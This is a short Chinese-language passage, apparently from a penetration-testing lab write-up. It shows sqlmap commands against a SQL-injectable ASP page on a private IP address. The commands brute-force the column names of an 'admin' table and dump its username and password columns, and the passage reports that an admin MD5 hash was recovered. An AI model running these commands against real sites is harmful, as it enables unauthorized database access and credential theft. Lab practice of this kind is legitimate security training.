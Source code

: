 

查询admin表中的列名

```
python sqlmap.py -u http://192.168.100.122:89/pic.asp?classid=4 --columns -T "admin"
```



使用common-columns.txt默认字典猜列名

![image-20240411211841621](../图片/image-20240411211841621.png)

使用线程10爆破

![image-20240411212003824](../图片/image-20240411212003824.png)

猜出以下列名

![image-20240411212814072](../图片/image-20240411212814072.png)

查询‘admin’表中‘username,password‘列中的数据

```
python sqlmap.py -u http://192.168.100.122:89/pic.asp?classid=4  --dump -C "username,password" -T "admin"
```

![image-20240411213300616](../图片/image-20240411213300616.png)

查询到user为admin和MD5密码
